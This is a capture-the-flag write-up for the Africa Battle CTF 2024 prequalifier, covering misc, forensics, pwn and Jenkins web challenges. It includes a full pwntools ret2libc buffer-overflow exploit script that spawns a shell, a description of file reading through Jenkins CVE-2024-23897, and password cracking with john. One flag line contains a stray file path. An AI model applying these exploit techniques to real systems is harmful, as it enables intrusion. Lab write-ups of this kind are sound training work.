# AFRICA BATTLE CTF 2024 PREQUAL

#### Challenges:
- Rules (Misc)
- Invite Code (Misc)
- Do[ro x2] (Forensics)
- Poj(Pwn)
- Jenkins (Web)
- Hmmmm!... (Web): _But not submitted, cause time over_

## Rules (Misc)


```
Flag: battleCTF{HereWeGo}
```
## Invite Code (Misc)

The challenge in question was made available before the CTF event started and can be found on bug|pwn Discord, Twitter and LinkedIn.




Decode the hex use *invite.ini* content and decode as b64 and extract gzip archive


Now we crack the user pasword using john and rockyou wordlist and find password **nohara**



At this point we use cracked password as key to decrypt RC4 encryption and got the flag


```
Flag: battleCTF{pwn2live_d7c51d9effacfe021fa0246e031c63e9116d8366875555771349d96c2cf0a60b}
```

## Do[ro x2] (Forensics)

In this challenge they provide us an [**AD1 file**](./assets/roro.ad1)

By using FTK Imager 4.7.xx we provide the password *Dororo* like chall name and it worked !



## Poj(Pwn)

Giving us 64 bits ELF file:



checksec result:

```sh
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./
```
After running the program we notice that some address is leaked


Now, decompile the program and figure out that it's libc **write** function. Here's the code


```c
void data.0000117d(void)
{
    write(1, "Africa battle CTF 2024\n", 0x17);
    printf("Write() address : %p\n", _write);
    fcn.0000115c();
    return;
}
```

Here is the decompile code of *fcn.0000115c()* function


```c
void fcn.0000115c(void)
{
    void *buf;
    
    read(0, &buf, 0x100);
    return;
}
```
Obviously we see a potential buffer overflow because it's read 0x100 bytes but *buf* @ stack - 0x48, so offset to RIP is 0x48 i.e 72

Confirmed: 


To determine the libc base here, we need to subtract the leaked libc value of the write function from the actual offset of write@libc.

Here is my [script](./poj/solve.py) to solve

```python
from pwn import *


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw, env={"LD_PRELOAD":"./libc.so.6"})


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './poj'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

libc = ELF("./libc.so.6", checksec=False)
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

offset = 0x48

io.recvuntil(b'address : ')

write_addr = int(io.recvline(), 16)


libc_base = write_addr -  libc.sym['write']
system = libc_base + 0x4dab0
binsh = libc_base + 0x197e34

# POP RDI gadget (found with ropper)
pop_rdi = libc_base + 0x28215
ret = libc_base + 0x2668c


info('Write addrs: %#x', write_addr)
info('libc_base base addr: %#x ', libc_base)
info('pop rdi addr: %#x ', pop_rdi)
info('ret addr: %#x ', ret)

payload = flat(
            asm('nop') * offset,
            pop_rdi,
            binsh,
            ret,
            system)


io.sendline(payload)


io.interactive()
```



```
Flag: battleCTF/home/meta/Pictures/Screenshots/Screenshot from 2024-10-21 21-32-14.png{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd}
```

## Jenkins (Web)


In this challenge Jenkins is version 2.441 and vulnerable to CVE-2024-23897

By using *jenkins-cli.jar* utils we able read local file on server

Flag location was guessy but we find it in /etc



```
Flag: battleCTF{I_Tr4vEl_T0_battleCTF_3bb8a0f488816fc377fc0cde93f2e0b1d4c1f9fda09dfaa4962d44d5a09f8fdb}
```